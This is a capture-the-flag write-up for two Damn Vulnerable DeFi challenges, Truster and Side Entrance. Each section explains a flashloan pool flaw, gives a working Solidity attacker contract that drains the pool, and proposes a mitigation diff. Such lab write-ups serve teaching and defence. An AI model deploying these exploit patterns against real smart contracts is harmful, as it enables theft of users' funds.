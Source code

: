 # 3 - Truster

## **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

## **Solution:**
The flashloan function takes the target contract address as an input, which will be responsible for repaying the debt. The function directly calls target.functionCall(data) from the Address library of OpenZeppelin, without validating the type of contract at the target address.

We exploit this behavior by initiating a flashloan with a borrowed amount of 0 tokens. We pass the address of the token contract as the target and provide the function signature of the approve function as the data. This results in the TrusterLenderPool contract approving tokens to our contract.

With this approval in place, our contract is able to transfer the entire token balance from the pool to itself, effectively bypassing the intended security checks.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```
## **Mitigation:**
Consider changing target parameter to be an interface that execute operations and than repay limiting the user from calling arbitrary contracts.

```diff
- function flashLoan(uint256 borrowAmount, address target, bytes calldata data) external {
+ function flashLoan(uint256 borrowAmount, IFlashLoanBorrower target, bytes calldata data) external {
```


<br><br>

# 4 - Side Entrance

## **Problem:**

A surprisingly simple pool allows anyone to deposit ETH, and withdraw it at any point in time.

It has 1000 ETH in balance already, and is offering free flashloans using the deposited ETH to promote their system.

You start with 1 ETH in balance. Pass the challenge by rescuing all ETH from the pool and depositing it in the designated recovery account.

## **Solution:**
The pool is designed to allow `deposit`, `withdraw`, and `flashLoan` functions. The `flashLoan` function checks that the borrower has repayed by comparing contract's balance before and after the loan.
The problem is that the IFlashLoanEtherReceiver we pass can repay correctly by sending eth to the contract but it can also send them by using the `deposit` function incrementing our balance using borrowed funds.
We can then withdraw all the funds from the pool and send them to the recovery account.

### **Code:**
```javascript
contract SideEntranceAttacker is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    address recovery;

    constructor(SideEntranceLenderPool _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(1000e18);

        // after attack withdraw all ETH from pool
        pool.withdraw();
        SafeTransferLib.safeTransferETH(recovery, 1000e18);
    }

    function execute() external payable override {
        pool.deposit{value: 1000e18}();
    }

    receive() external payable {
    }
}
```

## **Mitigation:**
Considere using a lock mechanism to prevent user to call deposit during a flashloan.

```diff
function flashLoan(uint256 amount) external {
    uint256 balanceBefore = address(this).balance;
+   lockdeposit = true;

    IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

    ...

+   lockdeposit = false;
}
```
<br>

```diff
    function deposit() external payable {
+       require(!lockdeposit, "Deposit not allowed during flashloan");
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }
```
